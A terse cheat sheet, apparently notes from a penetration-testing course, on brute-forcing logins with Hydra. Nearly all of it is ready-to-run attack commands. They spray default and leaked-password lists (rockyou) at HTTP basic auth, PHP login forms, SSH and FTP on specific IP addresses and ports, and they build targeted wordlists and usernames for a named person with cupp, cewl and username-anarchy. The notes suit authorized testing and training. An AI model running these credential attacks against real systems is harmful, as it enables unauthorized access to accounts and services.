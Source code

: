 

hydra

```
$ apt install hydra -y

$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

```

Identify supported services
```
$ hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

Two http modules
```
# Basic AUthentication
http[s]-{head|get|post}

# login forms, .php or .aspx
http[s]-post-form


$hydra http-post-form -U
```

Http-post-form
```
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"

```

```
 hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"


```

# Personalized wordlist

https://github.com/Mebus/cupp

```bash
cewl


cupp
sudo apt install cupp

sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

# Mangling
https://github.com/digininja/RSMangler
https://github.com/sc0tfree/mentalist

# Custom Username
https://github.com/urbanadventurer/username-anarchy

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git

./username-anarchy Bill Gates > bill.txt

```


## Attack SSH
```
$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4


 $ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

user
password
user harrypotter